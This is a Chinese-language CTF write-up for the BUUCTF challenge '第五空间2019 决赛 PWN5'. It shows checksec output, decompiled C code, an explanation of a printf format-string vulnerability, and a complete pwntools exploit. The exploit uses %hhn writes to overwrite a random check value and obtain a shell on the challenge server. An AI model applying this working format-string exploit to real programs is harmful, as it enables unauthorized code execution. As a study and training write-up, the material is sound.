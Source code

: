 ```yaml
---
author: 
  name: Zephyr
title: 第五空间2019 决赛 PWN5
date: 2022-3-19 21:30:02
permalink: /pages/2e9547494524d18d
tags: 
  - buuctf
  - pwn
  - FormatString
---
```


# 第五空间2019 决赛 PWN5

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int a1)
{
  unsigned int v1; // eax
  int fd; // ST14_4
  int result; // eax
  int v4; // ecx
  unsigned int v5; // et1
  char nptr; // [esp+4h] [ebp-80h]
  char buf; // [esp+14h] [ebp-70h]
  unsigned int v8; // [esp+78h] [ebp-Ch]
  int *v9; // [esp+7Ch] [ebp-8h]

  v9 = &a1;
  v8 = __readgsdword(0x14u);
  setvbuf(stdout, 0, 2, 0);
  v1 = time(0);
  srand(v1);
  fd = open("/dev/urandom", 0);
  read(fd, &unk_804C044, 4u);
  printf("your name:");
  read(0, &buf, 0x63u);
  printf("Hello,");
  printf(&buf);
  printf("your passwd:");
  read(0, &nptr, 0xFu);
  if ( atoi(&nptr) == unk_804C044 )
  {
    puts("ok!!");
    system("/bin/sh");
  }
  else
  {
    puts("fail");
  }
  result = 0;
  v5 = __readgsdword(0x14u);
  v4 = v5 ^ v8;
  if ( v5 != v8 )
    sub_80493D0(v4);
  return result;
}
```

程序运行时在unk_804C044处写入随机数，在最后一次输入结束后，若与unk_804C044处的随机数相等，可获得shell

## 思路分析

1. 目前信息
   - 第一次输入处存在格式化字符串漏洞
   - PIE关闭
   - unk_804C044是在bss段，地址可确定
1. 问题
   - 需要绕过与随机数对比的判断
3. 解决思路
   - 通过printf的格式化字符串漏洞，使用%?$hhn的方式逐字节修改unk_804C044的值，在最后一次输入时传入对应的值，通过自己与自己的比较绕过判断获得shell

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/第五空间2019_决赛_PWN5/pwn'
io = remote('node4.buuoj.cn', 25502)
# io = process(pwnfile)
bss_804C044 = 0x804C044
payload = flat([bss_804C044, bss_804C044+1, bss_804C044+2,bss_804C044+3, "%10$hhn%11$hhn%12$hhn%13$hhn"])
# 逐字节修改bss_804C044，printf在打印格式化字符串之前一共打印了16个，修改后bss_804C044的值应为0x10101010
io.sendlineafter('name:', payload)
io.sendlineafter('passwd:', str(0x10101010))
io.interactive()
```